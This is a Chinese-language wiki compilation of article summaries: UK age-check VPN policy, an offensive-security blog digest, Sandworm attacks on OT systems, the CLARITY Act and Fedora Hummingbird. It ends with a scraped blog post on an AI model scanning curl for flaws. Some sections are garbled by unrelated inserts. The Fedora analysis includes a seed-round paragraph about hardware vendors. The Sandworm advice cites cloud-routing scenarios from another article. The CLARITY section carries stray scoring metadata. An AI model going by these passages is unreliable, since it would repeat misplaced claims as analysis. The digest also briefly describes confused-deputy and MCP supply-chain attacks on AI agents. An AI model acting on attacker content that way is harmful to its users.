Mozilla 已开始在 Firefox 中测试内置 VPN 功能，这代表了更广泛的浏览器隐私功能集成趋势。这意味着阻断 VPN 的技术手段将越来越难以奏效。

## 深度分析
### 监控基础设施的悖论
Mozilla 的核心论点是 age assurance 政策正在创造一个监控基础设施，与网络安全的基本原则背道而驰。要求 VPN 提供商维护阻断列表，本质上是将安全工具转化为监控工具——这与 VPN 的设计初衷完全相反。

### 政策效果的实证缺失
Mozilla 在意见书中指出了一个关键问题：政府未能提供 age verification 确实能减少未成年人访问色情内容的证据。工党政府延续了 2019 年保守党政府的承诺，但这个承诺从未经过严格的实证检验。

### 全球监管趋势与地域差异
这一事件反映了更广泛的全球趋势：各国政府正在将 VPN 从常规安全软件重新定位为执法障碍。用户越来越多地通过 VPN 规避各种限制，导致监管机构的态度发生根本性转变。
同时需注意，Denmark 的案例表明这类立法草稿往往在引发强烈反对后被澄清或撤回。

### 对行业的长远影响
Mozilla 测试浏览器内置 VPN 的事实表明，技术行业正在用集成化方式回应监管压力。这种趋势如果持续，将使任何针对独立 VPN 应用的监管措施逐渐失效。

## 相关事件
- [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/mozilla-warns-uk-breaking-vpns-will-not-magically-fix-britain-s-age-check-mess.md)
## 相关实体
- [Mozilla Warns Uk Breaking Vpns Will Not Magically Fix Britai](https://github.com/QianJinGuo/wiki/blob/main/entities/mozilla-warns-uk-breaking-vpns-will-not-magically-fix-britai.md)
- [Mozilla Warns Uk Breaking Vpns Will Not Magically Fix Britain S Age Check Mess 1](https://github.com/QianJinGuo/wiki/blob/main/entities/mozilla-warns-uk-breaking-vpns-will-not-magically-fix-britain-s-age-check-mess-1.md)
- You Ll Soon Be Able To Bet On Bitcoin Volatility Not Just Price On Cme
- [Computerweekly Ico Fines Cl0P South Staffs Water](https://github.com/QianJinGuo/wiki/blob/main/entities/computerweekly-ico-fines-cl0p-south-staffs-water.md)
- [Nathan Lambert Claude Mythos Open Weights](https://github.com/QianJinGuo/wiki/blob/main/entities/nathan-lambert-claude-mythos-open-weights.md)

---

## Ch12.005 Offensive Security Blog

> 📊 Level ⭐ | 8.4KB | `entities/offensive-security-blog.md`

> -> [offensive-security-blog](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/offensive-security-blog.md)
## 相关实体
> [主题导航](https://github.com/QianJinGuo/wiki/blob/main/moc/cybersecurity-privacy.md)

- [CloudSectiDbits: Masso - Cognito SSO Bypass](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudsectidbits.md)

## 近期热门文章
### Otto-Support: Supply Chain Risks in MCP Servers（2026-05-13）
本文探讨了 MCP 服务器本身的供应链风险。作者 Derek Rush 研究了当 MCP 服务器本身是攻击者时会发生的攻击路径。文章结合了 postmark-mcp 和 ClawHub 的实际妥协案例，以及 otto-support 的 selfpwn 模块，展示了敌对 MCP 服务器在运行瞬间能访问什么。
核心观点：MCP 工具的供应链风险是结构性的，postmark-mcp 和 ClawHub 的妥协使其具体化。攻击者可以通过破坏或伪装 MCP 服务器来获取敏感访问权限。

### Introducing Joro: Using AI to Build Security Tooling（2026-05-12）
Bishop Fox 发布 Joro，这是一个协作式 Web 渗透框架，几乎完全用 AI 构建。从拦截代理到 C2 集成，本文涵盖了该工具的构建方式、功能以及 AI 辅助安全工具开发现状。

### Otto Support - The Confused Deputy（2026-05-08）
探讨「混乱副手」（Confused Deputy）攻击。当 Agent 读取攻击者控制的内容并使用自己的权限对其执行操作时，用户名称会出现在每条审计日志条目中。从 Microsoft Copilot 到 ConfusedPilot，本文逐步讲解混乱 deputy 攻击的原理和有助于控制影响的多层控制机制。

### Deep Dive into Arista NG Firewall Vulnerabilities（2026-02-09）
Bishop Fox 在 Arista NG Firewall 17.4 版本中发现了六个漏洞，包括允许 root 级代码执行的关键命令注入漏洞，其中一些可通过链接攻击通过单个恶意链接利用。作者 Ronan Kervella 提供了详细分析。

### Get the Most from Testing Your Applications（2026-02-04）
本文指出渗透测试失败不是因为测试人员漏掉了漏洞，而是因为没有人同意测试应该回答什么问题。在当今云和 AI 驱动的应用中，范围界定、执行和后续跟踪决定了结果是推动真正决策还是仅仅成为归档报告。

### Why the Board Belongs in the War Room（2026-01-22）
董事会可能不在第一线，但他们总是在爆炸范围内。危机模拟帮助董事亲身体验不确定性，加强治理、信任和决策——这些都在头条新闻出现之前。

## 深度分析
### 1. MCP 安全风险——AI 工具链的新盲点
Otto-Support 关于 MCP 服务器供应链风险的文章揭示了 AI 工具链中的新盲点。传统安全思维关注的是「用户使用 MCP 服务器」的安全性，但这篇文章的洞见是「MCP 服务器本身可能成为攻击面」。
当用户授权一个 MCP 服务器时，实际上是给予了该服务器相当大的信任——可以访问文件系统、API、其他服务。如果 MCP 服务器本身被攻破或本身就是恶意的，攻击者可以：读取用户数据、模仿用户执行操作、在系统中横向移动。这种风险在 postmark-mcp 和 ClawHub 的实际案例中已得到验证。
这与 [Boris Cherny 访谈中提到的 MCP 作为 AI 工具连接标准](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/claude-code-之父最新访谈编程已经结束harness-将消失claude-code-将只有-100-行代码loop-才是未来.md) 形成有趣对照——MCP 一方面是 AI Agent 的能力放大器，另一方面也带来了新的攻击向量。

### 2. AI 辅助安全工具的工业化
Joro 的发布标志着 AI 辅助安全工具进入工业化阶段。这个框架「几乎完全用 AI 构建」，从拦截代理到 C2 集成，表明安全工具开发本身也在被 AI 变革。
这意味着：安全工具的迭代周期将大幅缩短，攻击者和防御者的工具都在快速进化。同时也带来新问题——当安全工具本身可以由 AI 生成时，如何确保这些工具没有后门或漏洞？

### 3. Confused Deputy 问题在 Agent 时代的复现
Confused Deputy 攻击是一个经典安全问题，但在 AI Agent 时代变得尤为突出。当 Agent 可以自主执行操作、与其他 Agent 通信、调用外部服务时，「权限边界」变得模糊。一个被设计用来执行特定任务的 Agent，如果被诱导读取攻击者控制的内容，就可能在审计日志中留下受害用户的名字。
从 Microsoft Copilot 到更广泛的 Agent 系统，这种攻击模式正在被系统性地研究。多层控制机制是必要的，但根本解决方案可能需要重新思考 Agent 的权限模型和审计机制。

### 4. 渗透测试行业的范式转变
「Get the Most from Testing Your Applications」提出了一个深刻问题：渗透测试的价值不在于发现多少漏洞，而在于「是否回答了对的问题」。在云和 AI 驱动的应用中，传统的渗透测试方法论正在受到挑战。
原因包括：AI 生成的代码可能有独特的漏洞模式、云原生架构的攻击面与传统应用完全不同、Agent 系统的行为难以预测。这要求渗透测试行业从「漏洞发现」转向「风险评估」和「攻击场景模拟」。

### 5. 安全与业务的融合
Board Belongs in the War Room 一文强调董事会应参与危机模拟。这反映了安全行业的一个趋势：安全不再是纯粹的技术问题，而是治理和战略问题。随着 AI 系统变得更加普及，网络安全的失败可能导致业务层面的灾难性后果。

## 实践启示
### 给安全工程师的建议
1. **审视 MCP 供应链安全**：在使用第三方 MCP 服务器前进行安全评估，了解其代码来源、维护历史和权限需求。考虑为 MCP 连接实现额外的沙箱和监控层。
2. **建立 Agent 安全模型**：当构建或部署 AI Agent 时，明确其权限边界、实现最小权限原则、记录所有外部通信。特别是 Agent 间的通信（如 Boris Cherny 提到的 Slack 上 Agent 间自主通信）需要额外的审计机制。
3. **更新渗透测试方法论**：传统的渗透测试范围（OWASP Top 10、网络渗透等）已不够。需要扩展到 AI 模型安全、Agent 行为分析、MCP 服务器供应链等新领域。

### 给开发团队的建议
1. **将安全融入 AI 开发流程**：参考 Joro 的经验，使用 AI 辅助开发安全工具，同时确保 AI 生成代码的安全审查流程。特别是在使用 AI 生成安全相关代码时，人工审查不可替代。
2. **关注 Arista 防火墙类漏洞**：命令注入漏洞仍是大问题，特别是在网络设备和基础设施软件中。确保及时打补丁、实施网络分段、监控异常命令执行。
3. **建立危机响应文化**：董事会参与危机模拟的实践值得借鉴。定期进行安全事件演练，确保技术团队和业务领导层对安全事件有共同的理解和响应能力。

### 给企业管理者的建议
1. **重新定义渗透测试价值**：不要以「发现漏洞数量」衡量渗透测试的 ROI，而是关注「解决了什么业务风险」。与测试团队明确目标，确保测试结果能推动实际改进。
2. **投资 AI 安全**：随着 AI/Agent 系统在企业中的部署，需要专门的安全预算和能力建设。包括红队测试、AI 特异性漏洞评估、Agent 权限审计等。
3. **将安全纳入治理框架**：安全事件的影响已超出技术范畴，波及业务连续性和声誉。董事会应定期了解安全态势，参与重大安全决策。

## 主题导航
>

---

## Ch12.006 Sandworm Hackers Shift From IT Breaches to Critical OT Targets

> 📊 Level ⭐ | 7.4KB | `entities/gbhackers-sandworm-shift-from-it-breaches.md`

## 核心要点
- 俄罗斯国家级 APT 组织 Sandworm（又称 APT44、Seashell Blizzard、Voodoo Bear）正在从传统 IT 网络入侵转向攻击运营技术（OT）环境
- 攻击目标涵盖工业控制系统（ICS）、工程工作站、人机界面（HMI）、PLC 和 RTU 等现场控制器
- 战术特征：横向移动激进（单台感染主机可 targeting 上百台内部系统）；依赖已泄露工具而非零日漏洞；被发现后不撤退反而升级攻击；利用 EternalBlue、DoublePulsar、WannaCry 等老旧漏洞链
- 平均警告窗口长达 43 天，期间有可检测的预警信号
- 与网络犯罪组织不同，Sandworm 的任务是军事网络破坏，与俄罗斯 GRU 74455 部队有关联 

## 深度分析
### 从 IT 到 OT：攻击范式的战略性转变
Sandworm 从 IT 网络渗透转向 OT（运营技术）环境，标志着国家级 APT 组织的攻击目标从"数据窃取或勒索"升级为"物理世界层面的破坏"。这一转变的战略意图极为明确：控制了 PLC、RTU 等现场控制器意味着可以操纵真实物理过程——电网停电、水处理中断、工业生产停滞。NotPetya 和乌克兰电网攻击已经证明，Sandworm 具备造成现实世界物理破坏的能力 。
这次报告的核心数据来自 Nozomi Networks 的遥测：2025 年 7 月至 2026 年 1 月期间，对 10 个工业组织、跨 7 个国家的监测中，在超过 550 万条警报中识别出 29 起确认的 Sandworm 相关事件 。虽然 29 起事件相对于 550 万警报占比极低，但考虑到这是"确认的"Sandworm 相关事件（需排除误报且具有强归因特征），实际渗透未被发现的数量可能更高。

### LOTL 战术的演进与危险
"Sidewalk inside the LotL（Living off the Land）"——攻击者依赖已被入侵环境中的合法工具（如 Cobalt Strike、Metasploit）和已有权限，而非部署新恶意软件 。这种战术使得检测极为困难：合法工具的操作不会触发传统 AV 签名，网络行为与正常运维流量混在一起。
值得注意的是，Sandworm 在多个环境中是利用"已经软化的目标"——即网络早已被 Cobalt Strike 和 Metasploit 攻陷，Sandworm 只是接手已有阵地 。这说明国家级 APT 的入侵链条可能是：先由其他攻击者完成初始渗透，随后国家级组织接手更有价值的目标。

### 老旧漏洞链的持续价值
Sandworm 持续使用 EternalBlue、DoublePulsar、WannaCry 等老旧漏洞链，而非开发新工具 。这背后有务实的逻辑：全球范围内未打补丁的系统数量庞大，这些已知漏洞在大量目标上仍然有效，且归因难度低（被广泛使用，难以追溯到特定组织）。对攻击者而言，"有效"比"先进"更重要。

### 43 天警告窗口：被忽视的黄金干预期
最关键的发现是：每个受感染系统从最初预警到攻击升级，平均存在 43 天的可检测窗口期 。这意味着绝大多数事件本可以预防——只需基本的网络安全卫生：打已知漏洞补丁、调查"常规"警报、限制横向移动。
但现实是，43 天的平均窗口被白白浪费。告警疲劳、安全资源不足、以及对"IT 告警"的轻视共同导致了这一结果。当 Sandworm 进入 OT 环境后，这些被忽视的早期信号直接关联到可能影响物理世界的安全事件。

### 地理政治关联
报告指出，2025 年底出现目标收缩期，可能与针对波兰电网的疑似攻击有关——资源集中投入单一高价值目标 。Sandworm 的活动与地缘政治事件高度关联，在某些案例中甚至先于军事行动发动网络攻击 。

## 实践启示
**1. 对 OT/ICS 环境立即启动专项威胁狩猎**
传统 IT 安全监控无法覆盖 OT 环境特性。建议：部署专门针对 ICS/SCADA 协议的异常流量检测；监控工程工作站与 OT 控制器之间的非预期通信；识别利用合法管理员工具（如 PsExec、WMI）的异常横向移动模式。Nozomi Networks 等 OT 安全平台可作为参考架构 。
**2. 建立"43 天窗口"的主动检测机制**
43 天的警告窗口是真实的——但需要主动狩猎才能发现。关键告警应包括：同一源 IP 的渐进式横向移动（尤其是 engineering workstations 和 controllers）；异常的大规模内部扫描行为（如单台主机 targeting 数百台内部系统）；"低值"告警的累积模式（如同一主机反复出现 Cobalt Strike beacon 特征但未被隔离）。建议优先部署行为异常检测而非仅依赖签名匹配 。
**3. 处置 EternalBlue/DoublePulsar/WannaCry 的残留风险**
老旧漏洞链仍在被国家级 APT 活跃使用，说明全球仍有大量未修复系统。OT 网络中这种情况更为严重（ICS 系统难以频繁打补丁）。优先行动：识别 OT 网络中暴露 SMB、RDP 等协议的设备；建立 OT 资产的完整清单（包括固件版本）；对无法打补丁的系统实施网络隔离和补偿性控制 。
**4. 重新评估"被发现后撤退"的假设**
传统网络犯罪在被发现后通常撤退以隐藏踪迹。Sandworm 的策略截然相反——被发现后会升级活动，转向 OT 资产 。这意味着针对 APT 的响应策略需要调整：检测到 Sandworm 活动不应被视为"成功驱逐"，而应视为"全面入侵响应的开始"，包括立即切断 IT/OT 互联通道、启动 OT 环境专项排查。
**5. OT 网络分段与 IT/OT 边界强化**
DXGW + TGW 的混合云架构在本文多个场景中出现。关键启示：OT 网络与 IT 网络之间的边界控制必须视为高优先级；TGW 路由表的静态路由覆盖动态路由的特性需要在架构层面做防护；建议对 IT/OT 互联通道实施零信任策略，持续验证而非一次性认证 （T3 场景中 TGW 静态路由覆盖 DXGW 传播路由的原理与 Sandworm 从 IT 横向进入 OT 的路径控制逻辑相通）。
## 相关实体
- [Sandworm Hackers Shift It Breaches Ot Gbhackers](https://github.com/QianJinGuo/wiki/blob/main/entities/sandworm-hackers-shift-it-breaches-ot-gbhackers.md)
- [From Doer To Director The Ai Mindset Shift](https://github.com/QianJinGuo/wiki/blob/main/entities/from-doer-to-director-the-ai-mindset-shift.md)
- [Cisa Urges Critical Infrastructure Firms To Fortify Before I](https://github.com/QianJinGuo/wiki/blob/main/entities/cisa-urges-critical-infrastructure-firms-to-fortify-before-i.md)
- [Engineering Roles Shift From Developing Code To Ma](https://github.com/QianJinGuo/wiki/blob/main/entities/engineering-roles-shift-from-developing-code-to-ma.md)
- [Engineering Roles Shift From Developing Code To Managing Ai](https://github.com/QianJinGuo/wiki/blob/main/entities/engineering-roles-shift-from-developing-code-to-managing-ai.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/gbhackers-sandworm-shift-from-it-breaches.md)

---

## Ch12.007 5 Things to Know about the CLARITY Act

> 📊 Level ⭐ | 6.2KB | `entities/clarity-act-5-things.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/clarity-act-5-things.md)

## 核心要点
- value=7, confidence=8, product=56
- Timely overview of CLARITY Act
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/clarity-act-5-things.md)

## 深度分析
**1. CLARITY Act 的核心使命：终结十年数字资产监管真空**
本文揭示的 CLARITY Act 最核心的背景是：数字资产（从 token 到稳定币再到 AI 驱动金融系统）的监管框架在美国已经悬而未决超过十年。这期间，SEC、CFTC、州级监管机构之间的管辖争议导致大量合规资源浪费在「不确定哪些规则适用」上，而非实际保护消费者。
CLARITY Act 的出现是试图做一件简单但关键的事：**明确哪个 token 在什么时候属于证券（SEC 管辖）、什么时候属于商品（CFTC 管辖）、什么时候是支付工具（货币监理署或美联储管辖）**。这个边界的确立将直接影响交易所和平台如何运营、什么信息需要披露、以及监管成本由谁承担。
**2. 「收益」（Yield）争议揭示的深层结构性问题**
文章指出稳定币能否支付「收益」是银行和加密公司之间的主要战场。这个争议的本质不是「收益好不好」，而是：

- **银行体系路径依赖**：如果稳定币存款能获得收益，它在功能上就成为了货币市场基金的竞争品，可能引发存款从传统银行向稳定币转移（「稳定币化」）
- **监管套利问题**：如果一个数字资产提供利息，它在监管意义上可能被视为证券，但现有的证券框架并未针对这类混合产品设计
CLARITY Act 的策略是**间接调控**：不直接说「稳定币不能提供收益」，而是通过证券法框架让「提供收益的数字资产」自动落入 SEC 管辖，间接改变了发行人的激励结构。这种「框架归属」而非「直接禁止」的方式，是美国立法者常用的路径依赖。
**3. 地缘金融竞争是推动立法加速的真正动力**
文章引用了一个关键论点：欧洲、香港、阿联酋、新加坡都已经推出了数字资产框架，「如果美国不建立监管护栏，银行、金融科技公司和加密企业在美国创新会觉得不安全」。
这说明 CLARITY Act 的推动力不仅是国内监管完善的需求，更是**国际监管竞争的压力**。当主要金融中心都在建立清晰框架时，监管真空反而会成为人才和资本流出的原因。这是理解美国近期一系列数字资产立法动作（GENIUS Act、CLARITY Act 等几乎同时出现）的核心背景。
**4. 「即使通过，争论也远未结束」揭示的治理缺口**
文章末尾列举了 CLARITY Act 未解决的四个核心问题：

- **AML（反洗钱）保护**：数字资产交易所有义务进行 KYC/AML 检查，但 DeFi 协议在技术上无法做到这一点，CLARITY Act 对去中心化协议的覆盖存在法律灰色地带
- **DeFi 监管**：谁来对去中心化协议负责？开发者？节点运营者？代币持有者？现有框架没有答案
- **系统性风险**：当稳定币、tokenized 资产、AI 驱动金融代理深度整合到支付系统后，单点失败可能引发连锁反应，但现有监管机构没有协调机制
- **利益冲突**：一些推动 CLARITY Act 的议员本身持有加密资产，相关立法可能存在利益冲突问题
这些问题反映了数字金融监管的**根本性治理挑战**：现有监管架构是按「机构」设计的（银行、券商、交易所都有对应的监管者），但 DeFi 和 AI 金融代理是按「协议」运作的，不对应任何单一机构。

## 实践启示
**对于加密和金融科技公司：**
1. **「证券 vs 商品」的边界确定将是决定业务模式的关键变量**：如果你的 token 被认定为中心化证券，运营成本和合规要求将大幅提升。建议在 CLARITY Act 落地前，对现有产品线进行「边界测试」，识别哪些在证券定义边缘。
2. **稳定币策略需要「收益」以外的差异化**：鉴于 CLARITY Act 对「收益类数字资产」有向证券监管靠拢的倾向，稳定币发行方需要寻找「非收益」维度的竞争优势——如稳定性、结算速度、监管合规性、跨链兼容性等。
3. **关注 DeFi 协议的合规架构演进**：如果你的业务涉及 DeFi 协议，即使目前不在 CLARITY Act 直接管辖范围内，也应提前布局「协议层面的合规机制」（如预言机喂价的审计跟踪、节点运营者的 KYC 流程等），为未来监管做准备。
**对于政策研究者和立法者：**
4. **「代币经济学 + AI 金融代理」的交叉领域是当前监管盲区**：当 AI 驱动的金融代理能够自主进行代币交易、套利、稳定币收益农业时，现有的证券定义和 AML 框架都无法有效覆盖。建议立法者在下一轮 CLARITY Act 修订或专项立法中专门处理这个领域。
5. **国际框架互认机制应成为 CLARITY Act 的后续重点**：当前 CLARITY Act 主要处理美国国内管辖，但数字资产天然是跨境运作的。建立与欧盟 MiCA、香港 VASP 牌照等主要框架的互认机制，可以避免重复合规成本，同时保持监管有效性。
**对于投资者和用户：**
6. **理解「监管明确」对资产价值的双向影响**：CLARITY Act 的通过可能同时带来：(a) 纳入监管框架的合规代币价值提升（因为监管确定性降低了风险）；(b) 被认定为证券的代币面临抛售压力。投资者需要根据持仓结构提前调整。
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/clarity-act-5-things.md)

## 相关实体
- [5 Things to Know about the CLARITY Act](https://github.com/QianJinGuo/wiki/blob/main/entities/5-things-to-know-about-the-clarity-act.md)

---

## Ch12.008 fedora hummingbird brings the container security model to a linux host os

> 📊 Level ⭐ | 5.6KB | `entities/fedora-hummingbird-brings-the-container-security-model-to-li.md`

## 深度分析

**1. 将「distroless」安全模型从容器层延伸到主机操作系统是架构层面的范式转移**
过去十年，容器安全的最佳实践是构建极简镜像（无 shell、无包管理器），从源头消除攻击面。Fedora Hummingbird 将这一理念应用到整个操作系统：OS 本身作为 OCI 镜像交付，root 文件系统只读，可写状态严格限定在 `/var` 和 `/etc`。这意味着 CVE 防护不再是事后补丁，而是构建过程的内在属性。

**2. 零 CVE 目标的工程难度被低估：49 个镜像、157 个变体的持续维护**
Project Hummingbird 在 8 个月内发布了 49 个 distroless 容器镜像（涵盖 Python、Go、Node.js、Rust 等运行时），在 FIPS 和多架构变体后总计 157 个。每个包都有独立的 CVE feed 和生命周期，由 Red Hat 产品安全团队维护。这种规模的持续运营需要高度自动化的构建管道（Konflux + Syft + Grype），而非人力审批流程。

**3. 硬件厂商（NVIDIA、AMD、Intel）集体出现在种子轮，揭示了安全的基础设施层焦虑**
Databricks、PyTorch 缔造者、OpenAI / Thinking Machines / xAI 的一线人物同时入局，代表了模型与系统层对「训练-推理一体化基础设施」的强烈预期。硬件厂商比任何人都清楚，当下算力仍然昂贵且稀缺，仅靠堆硬件已经无法持续。

**4. ARK (Always Ready Kernel) 策略将内核更新频率与主线 Linux 保持同步**
大多数企业级 Linux 发行版使用长期支持内核，延迟安全补丁数月。Fedora Hummingbird 采用 CKI 项目的 ARK 内核，直接跟踪主线 Linux，省去了中间层的延迟。这在容器安全模型中是合理的，因为容器的快速重建能力已经降低了内核更新的风险。

**5. 原子更新 + 只读 root 的组合消除了配置漂移和部分更新状态这两个运维痛点**
传统的 yum/dnf 更新在网络中断时会产生部分更新状态，这是生产环境最常见的故障场景之一。Hummingbird 的原子更新通过镜像替换而非增量打补丁来消除这一风险。只读 root 还意味着任何运行时配置修改都必须通过显式的机制（EnvVar、ConfigMap），而不是随意修改文件系统。

## 实践启示

1. **在评估 Hummingbird 时，优先测试网络中断场景下的更新原子性**：原子更新在生产环境中最有价值的场景是网络不稳定时能否回滚到上一个健康状态。建议在 staging 环境模拟网络中断，对比更新前后的系统状态一致性。

2. **利用 Syft + Grype 的 CVE 数据为镜像选择提供决策依据**：Hummingbird 随镜像附带了机器可读的 CVE 数据，可以用脚本自动解析并与 NVD 数据库对比，生成特定工作负载的 CVE 暴露图谱，用于安全合规报告。

3. **对需要 FIPS 模式的工作负载（联邦、政务、金融），Hummingbird 的 FIPS 变体可直接替代手动加固流程**：FIPS 构建变体解决了联邦合规场景中最耗时的加密模块配置问题，替换成本远低于在 RHEL 上手动启用 FIPS 模式。

4. **评估在 Hummingbird 上运行有状态服务（如 PostgreSQL）的运维边界**：只读 root + `/var` 分离的模型对有状态服务的备份、日志rotate、配置管理提出了新的运维要求。在采纳前需要验证数据目录是否完全在 `/var` 下，以及备份机制是否与 OCI 镜像模型兼容。

5. **关注 chunkah 工具的增量下载策略**：如果你的基础设施对带宽敏感（边缘节点、高频更新），chunkah 的「只下载变更部分」机制可以显著降低更新流量。建议在 CI 流程中测试 100 次连续小更新与 1 次大更新之间的带宽成本差异。

## 相关实体
- [Fedora Hummingbird Container Security](https://github.com/QianJinGuo/wiki/blob/main/entities/fedora-hummingbird-container-security.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Sysdig Headless Cloud Security](https://github.com/QianJinGuo/wiki/blob/main/entities/sysdig-headless-cloud-security.md)
- [The It And Security Field Guide To Ai Adoption Tines](https://github.com/QianJinGuo/wiki/blob/main/entities/the-it-and-security-field-guide-to-ai-adoption-tines.md)
- [Google Bigquery Threat Model](https://github.com/QianJinGuo/wiki/blob/main/entities/google-bigquery-threat-model.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/fedora-hummingbird-container-security.md)

---

## Ch12.009 Mythos finds a curl vulnerability

> 📊 Level ⭐⭐ | 45.1KB | `entities/mythos-finds-a-curl-vulnerability.md`

# "Mythos finds a curl vulnerability"
URL Source: https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/
Published Time: 2026-05-11T08:01:35+02:00
Markdown Content:

# Mythos finds a curl vulnerability | daniel.haxx.se
[Skip to content](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#content)
[](https://daniel.haxx.se/blog/)

# [daniel.haxx.se](https://daniel.haxx.se/blog/)
[Search](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#search-container)
Primary Menu

*   [About](https://daniel.haxx.se/blog/about/)
*   [Privacy](https://daniel.haxx.se/blog/privacy-policy/)
Search for:

[cURL and libcurl](https://daniel.haxx.se/blog/category/floss/curl/), [Security](https://daniel.haxx.se/blog/category/tech/security/)

# Mythos finds a curl vulnerability
[May 11, 2026](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/)[Daniel Stenberg](https://daniel.haxx.se/blog/author/daniel/)[23 Comments](https://daniel.haxx.se/blog/2026/05/11/mythos-finds-a-curl-vulnerability/#comments)
yes, as in singular _one_.
Back in April 2026 Anthropic caused a lot of media noise when they concluded that their new AI model _Mythos_ is _dangerously good_ at finding security flaws in source code. Apparently Mythos was so good at this that Anthropic would not release this model to the public yet but instead trickle it out to a selected few companies for a while to allow a few good ones(?) to get a head start and fix the most pressing problems first, before the general populace would get their hands on it.
The whole world seemed to lose its marbles. Is this the end of the world as we know it? An amazingly successful marketing stunt for sure.

## My (non-) access
Part of the deal with _[project Glasswing](https://www.anthropic.com/glasswing)_ was that Anthropic also offered access to their latest AI model to "Open Source projects" via [Linux Foundation](https://www.linuxfoundation.org/). Linux Foundation let their project [Alpha Omega](https://openssf.org/community/alpha-omega/) handle this part, and I was contacted by their representatives. As lead developer of [curl](https://curl.se/) I was offered access to the magic model and I graciously accepted the offer. Sure, I'd like to see what it can find in curl.
I signed the contract for getting access, but then nothing happened. Weeks went past and I was told there was a hiccup somewhere and access was delayed.
Eventually, I was instead offered that someone else, who has access to the model, could run a scan and analysis on curl for me using Mythos and send me a report. To me, the distinction isn't that important. It's not that I would have a lot of time to explore lots of different prompts and doing deep dive adventures anyway. Getting the tool to generate a first proper scan and analysis would be great, whoever did it. I happily accepted this offer.
(I am purposely leaving out the identity of the individual(s) involved in getting the curl analysis done as it is not the point of this blog post.)

## AI scans of curl
Before this first Mythos report, we had already scanned curl with several different very capable AI powered tools (I mean _in addition to_ running a number of "normal" static code analyzers all the time, using the pickiest compiler options and doing fuzzing on it for years etc). Primarily [AISLE](https://aisle.com/), [Zeropath](https://zeropath.com/) and [OpenAI's Codex Security](https://developers.openai.com/codex/security) have been used to scrutinize the code with AI. These tools and the analyses they have done have triggered somewhere between _two and three hundred_ bugfixes merged in curl through-out the recent 8-10 months or so. A bunch of the findings these AI tools reported were confirmed vulnerabilities and have been published as CVEs. Probably a dozen or more.
Nowadays we also use tools like [GitHub's Copilot](https://github.com/features/copilot) and [Augment code](https://www.augmentcode.com/) to review pull requests, and their remarks and complaints help us to land better code and avoid merging new bugs. I mean, we still merge bugs of course but the PR review bots regularly highlight issues that we fix: our merges would be worse without them. The AI reviews are used _in addition_ to the human reviews. They help us, they don't replace us.
We also see a [high volume of high quality security reports flooding in](https://daniel.haxx.se/blog/2026/04/22/high-quality-chaos/): security researchers now use AI extensively and effectively.
Security is a _top_ _priority_ for us in the curl project. We follow every guideline and we do software engineering properly, to reduce the number of flaws in code. Scanning for flaws is just one of many steps to keep this ship safe. You need to search long and hard to find another software project that makes as much or goes further than curl, for software security.

Steps involved in keeping curl secure

## May 6, 2026
It was with great anticipation we received the first source code analysis report generated with Mythos. Another chance for us to find areas to improve and bugs to fix. To make an even better curl.
This initial scan was made on curl's git repository and its master branch of a [certain recent commit](https://github.com/curl/curl/tree/455bebc2c76223a1be26042f6d2393715c0df0cd). It counted 178K lines of code analyzed in the src/ and lib/ subdirectories.
The analysis details several different approaches and methods it has performed the search, and how it has focused on trying to find which flaws. A fun note in the top of the report says:
> curl is one of the most fuzzed and audited C codebases in existence (OSS-Fuzz, Coverity, CodeQL, multiple paid audits). Finding anything in the hot paths (HTTP/1, TLS, URL parsing core) is unlikely.
… and it correctly found no problems in those areas.

Completely unscientific poll on Mastodon about people's expectations for Mythos scanning curl

## The size of curl
curl is currently 176,000 lines of C code when we exclude blank lines. The source code consists of 660,000 words, which is 12% more words than the entire English edition of the novel War and Peace.
On average, every single production source code line of curl has been written (and then rewritten) 4.14 times. We have polished on this.
Right now, the existing production code in git master that still remains, has been authored by 573 separate individuals. Over time, a total of 1,465 individuals have so far had their proposed changes merged into curl's git repository.
We have published [188 CVEs](https://curl.se/docs/security.html) for curl up until now.
curl is installed in over _twenty billion instances_. It runs on over _110 operating systems_ and _28 CPU architectures_. It runs in every smart phone, tablet, car, TV, game console and server on earth.

## Five findings became one
The report concluded it found **five** "Confirmed security vulnerabilities". I think using the term _confirmed_ is a little amusing when the AI says it confidently by itself. Yes, the AI thinks they are confirmed, but the curl security team has a slightly different take.
Five issues felt like nothing as we had expected an extensive list. Once my curl security team fellows and I had poked on the this short list for a number of hours and dug into the details, we had trimmed the list down and were left with _one_ confirmed vulnerability. The other four were three false positives (they highlighted shortcomings that are documented in API documentation) and the fourth we deemed "just a bug".
The single confirmed vulnerability is going to end up a _severity low_ CVE planned to get published in sync with our pending next curl release 8.21.0 in late June. The flaw is not going to make anyone grasp for breath. All details of that vulnerability will of course not get public before then, so you need to hold out for details on that.
The Mythos report on curl also contained a number of spotted bugs that it concluded were not vulnerabilities, much like any new code analyzer does when you run it on hundreds of thousands of lines of code. All the bugs in the report are being investigated and one by one we are fixing those that we agree with.
All in all about twenty bugs that are described and explained very nicely. Barely any false positives, so I presume they have had a rather high threshold for certainty.
curl is certainly getting better thanks to this report, but counted by the volume of issues found, all the previous AI tools we have used have resulted in larger bugfix amounts. This is only natural of course since the first tools we ran had many more and easier bugs to find. As we have fixed issues along the way, finding new ones are slowly becoming harder. Additionally, a bug can be small or big so it's not always fair to just compare numbers

## Not particularly "dangerous"
My personal conclusion can however not end up with anything else than that the big hype around this model so far was primarily marketing. I see no evidence that this setup finds issues to any particular higher or more advanced degree than the other tools have done before Mythos. Maybe this model is a little bit better, but even if it is, it is not better to a degree that seems to make a significant dent in code analyzing.
